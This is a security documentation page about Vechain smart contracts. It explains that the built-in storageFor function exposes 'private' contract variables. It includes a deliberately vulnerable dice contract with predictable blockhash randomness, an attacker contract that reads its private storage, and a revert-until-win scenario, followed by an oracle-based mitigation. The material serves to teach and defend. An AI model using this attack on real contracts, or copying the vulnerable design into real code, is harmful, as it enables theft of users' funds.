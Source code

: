 # BuiltIn Storage Access

## Private Data Leakage due BuiltIn-Storage-Access

As Ethereum developer `private` and `internal` variables are expected to be private within contracts. On vechain a public storage allows contracts to access all state variables of each other, there is no private storage.

#### Ethereums State Variable Visibility

> **internal**
>
> > Internal state variables can only be accessed from within the contract they are defined in and in derived contracts. They cannot be accessed externally. This is the default visibility level for state variables.

> **private**
>
> > Private state variables are like internal ones but they are not visible in derived contracts.

This definition applies for on-chain access. Due the public nature of Blockchain access to the raw data is possible from outside. Every variable is stored in a way that its storage location can be calculated and accessed.

{% hint style="info" %}
Solidity-by-example explains this as potential vulnerability on Ethereum here:\
[https://solidity-by-example.org/hacks/accessing-private-data/](https://solidity-by-example.org/hacks/accessing-private-data/)
{% endhint %}

#### Vechain Prototypes storageFor

{% hint style="warning" %}
Vechain uses a custom prototype for all accounts that adds functionality:\
[https://github.com/vechain/thor/blob/master/builtin/gen/prototype.sol](https://github.com/vechain/thor/blob/master/builtin/gen/prototype.sol)
{% endhint %}

`storageFor` provides raw access to storage of all accounts/contracts. `internal` or `private` definitions are not respected due direct storage access without going thru the contracts code.

Given that situation the modified definition of internal and private read:

> **internal**
>
> > Internal state variables can not be access public interfaces to the contract they are defined in and in derived contracts. They can be accessed externally using storage access. This is the default visibility level for state variables.

> **private**
>
> > Private state variables are like internal ones but they are not visible in derived contracts. They can be accessed externally using storage access.

### Vulnerability Scenario

Given there is a contract that accepts payments to roll a dice. The result is a random calculation within the contract. If the user guesses the correct side in advance the pool of money is sent as prize. If failed, the prize pool grows.

Technically the result of the dice roll is stored in a private variable. In a second transaction the prize can be claimed.

Given a bad actor creates a custom contract that checks a private variable for an indicating of a win. If it does not indicate a win, it reverts. Then the following scenario can happen:

```gherkin
Given a bad actor sends a transaction with two clauses  
When the first clause (play) rolls the dice and loses  
Then the second clause (check) reverts the whole transaction  
```

This can be repeated until it results in a win.

**Example vulnerable pseudo-contract:**

{% tabs %}
{% tab title="dice.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Dice {
    uint256 private totalClaimableFunds;
    mapping(address => uint256) private claimableFunds;
		
    function roll(uint256 guess) public payable {
        uint256 rolled = randomNumber(6);
        if (rolled == guess) {
	    claimableFunds[msg.sender] = address(this).balance - totalClaimableFunds;
            totalClaimableFunds += claimableFunds[msg.sender];
        }
    }

    function claim() external {
        uint256 amount = claimableFunds[msg.sender];
        totalClaimableFunds -= amount;
	claimableFunds[msg.sender] = 0;
        payable(msg.sender).transfer(amount);
    }

    function randomNumber(uint256 number) internal view returns (uint256) {
        return (uint256(blockhash(block.number - 1)) % number) + 1;
    }
}
```
{% endtab %}

{% tab title="attack.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

interface IPrototype {
        function storageFor(address _self, bytes32 _key)
             external 
             view 
             returns(bytes32);
}

contract Mimisbrunnr {

    address private constant PROTOTYPE = 0x000000000000000000000050726f746F74797065;

    function getStorage(address _address, bytes32 slot) 
        internal 
        view 
        returns(bytes32) {
            return IPrototype(PROTOTYPE).storageFor(_address, slot);
    }

    function getMap(address _address, uint256 position, address key) 
        public 
        view 
        returns(bytes32) {
            bytes32 slot = keccak256(abi.encode(key, position));
            return getStorage(_address, slot);
    }
}
```
{% endtab %}
{% endtabs %}

### Potential Solution

#### Oracles to remove processing indications

Calculations can be moved away from the Blockchain to prevent any indication of the results.

* The input emits an Event that is listened by an external party.
* An external party triggers another transaction that generates processing.

```mermaid
sequenceDiagram
    participant User
    participant Transaction
    participant Contract
    participant Oracle
    
    User->>Transaction: Submit Transaction 1
    Transaction->>Contract: Clause 1
    Contract-->Contract: add pending action
    Contract-->>Oracle: inform with Event
    Contract-->>Transaction: success
    Transaction-->>User: confirm

    Oracle->>Transaction: Submit Process Transaction
    Transaction->>Contract: Clause 1
    Contract-->Contract: execute pending action
    Contract-->>Transaction: success
    Transaction-->>Oracle: confirm
```

The disadvantage of this are two transactions and an external party:

1. Twice VTHO costs
2. Double the processing time
3. Increased complexity to a contract due implementing a pending & processing status
4. An external service monitoring for events with ability to execute transactions

### Links

{% embed url="https://docs.vechain.org/thor/learn/transaction-model.html#clauses" %}
Multi-Task Transactions
{% endembed %}

{% embed url="https://docs.soliditylang.org/en/latest/contracts.html#visibility-and-getters" %}
Contract Visibility and Getters
{% endembed %}
